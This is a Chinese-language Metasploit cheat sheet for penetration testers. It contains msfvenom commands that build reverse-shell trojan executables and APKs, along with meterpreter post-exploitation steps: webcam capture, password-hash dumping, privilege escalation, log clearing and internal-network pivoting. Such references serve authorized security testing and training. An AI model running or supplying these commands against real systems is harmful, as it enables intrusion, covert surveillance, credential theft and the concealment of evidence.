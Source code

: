 综合框架
----------------------------------------

metasploit
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- Terminal下msf常用命令简介
	+ msf数据库初始化
		``msfdb init``
	+ msf更新
		``apt install metasploit framework``
	+ 多平台攻击载荷生成器
		``msfvenom``
	+ 将汇编指令转换成为对应的16进制机器码
		``msf-nasm_shell``
	+ 打开msf终端
		``msfconsole``
- msf终端下常用命令简介
	+ 查看数msf据库连接状态,连接数据库能够优化搜索等过程
		``db_status`` 
	+ 重建缓存，将模块等索引重新存入数据库
		``db_rebuild_cache``
	+ 调用nmap扫描，并将扫描结果存入数据库
		``db_nmap``
	+ 显示命令的帮助信息
		``help [db_connect]``
	+ 搜索含有关键字的模块
		``search [module]``
	+ 选择模块
		``use [module]``
	+ 显示该模块支持的payload
		``show payload``
	+ 显示该模块需要设置的参数(其中required为no的表示不是必须的参数)
		``show options``
	+ 如果觉得show命令显示的不够完整可以直接输入info查看详细详细
		``info``
	+ 使用模块后，设置模块所需要的参数的值(对应使用unset取消设置的值)
		``set [opt]``
	+ 设置全局参数，对于ip之类的参数可以设置为全局，当切换模块后就不需要再次设置ip参数(对应使用unsetg取消设置)
		``setg [opt]``
	+ 返回上级状态
		``back``
	+ 两个命令都表示运行攻击模块
		``exploit/run``
	+ 查看当前连接的会话
		``sessions``
- 使用msfvenom生成木马文件
	+ 查看可使用的载荷/编码器/nops/所有列表
		``msfvenom -l payload/encoders/nops/all``
	+ 生成exe木马
		``msfvenom -p windows/x64/meterpreter_reverse_tcp lhost=192.168.16.99 lport=4444 -a x64 -f exe -o backdoor_raw.exe`` 
	+ 生成apk木马
		``msfvenom -p android/meterpreter_reverse_tcp lhost=192.168.16.99 lport=4444 -o backdoor_raw.apk``
- meterpreter后渗透利用
	+ 打印当前工作目录：pwd
	+ 查看系统信息：sysinfo
	+ 查看当前目标机上运行的进程列表和pid：ps
	+ 调用相机拍摄照片：webcam_snap
	+ 运行vnc远程查看屏幕：run vnc
	+ 远程桌面3389（windows）：run post/windows/manage/enable_rdp
	+ 截取目标主机当前屏幕​：screenshot
	+ 获取当前权限的用户id：getuid
	+ 获取system权限：getsystem
	+ 获取用户名与hash口令：hashdump
	+ 获取目标主机shell(windows环境下中文乱码的解决办法:chcp 65001）：shell
	+ 退出shell模式，返回到meterpreter：Ctrl+Z
	+ 上传一个文件：upload
	+ 下载一个文件：download
	+ 执行目标系统中的文件(-f 指定文件，-i执行可交互模式，-H隐藏窗口)：excute
	+ 清除日志：clearev
	+ 将Meterpreter放入后台(使用session -i重新连接到会话)：background
- meterpreter内网渗透
	+ 获取目标主机上的子网状态：run get_local_subnets
	+ 使用autoroute模块添加到达内网的路由经session 1转发：run autoroute -s 169.254.0.0/16 1
	+ 查看当前的路由表：run autoroute -p
	+ 扫描内网存活主机：db_nmap
	+ 将目标主机192.168.16.59的3389转发到本地主机的7070端口：portfwd add -l 7070 -r 192.168.16.59 -p 3389
	+ 端口转发成功后就可以从本地端口连接rdp：rdesktop 127.0.0.1:7070

其它
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- AWVS
- openvas
- nessus
- `PenTesters Framework(ptf) <https://github.com/trustedsec/ptf>`_
- `w3af <http://w3af.org/>`_
- `AutoSploit <https://github.com/NullArray/AutoSploit/>`_
- `skipfish <https://my.oschina.net/u/995648/blog/114321>`_
- `Arachni <http://www.arachni-scanner.com/>`_
- `Spiderfoot <https://github.com/smicallef/spiderfoot>`_
- `AZScanner <https://github.com/az0ne/AZScanner>`_
- `Fuxi <https://github.com/jeffzh3ng/Fuxi-Scanner>`_
- `vooki <https://www.vegabird.com/vooki/>`_
- `BadMod <https://github.com/MrSqar-Ye/BadMod>`_
- `xray <https://github.com/chaitin/xray>`_
- `x-scan <https://x-scan.apponic.com/>`_
